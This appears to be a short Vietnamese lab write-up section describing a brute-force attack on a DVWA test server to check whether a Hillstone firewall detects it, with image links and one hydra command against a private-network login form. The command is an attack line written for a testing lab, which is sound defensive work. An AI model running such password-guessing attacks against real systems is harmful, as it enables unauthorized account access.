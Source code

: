 ### 6. Tấn công Brute Force
- Mục đích: Kiểm tra khả năng phát hiện tấn công Brute Force vào DVWA web server trên Hillstone Firewall
- Sơ đồ:

    ![alt](image/sodo.png)

- Thực hiện
  - Thực hiện khai thác Brute Force có sẵn trên DVWA server
  
    ![alt](image/bf.png)
  - Thực hiện tấn công bằng tool hydra trên kali
    ```
    hydra 192.168.201.102 -l admin -p /root/pass.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^password=^PASS^&Login=Login:Username and/or password incorrect" -t 1
    ```
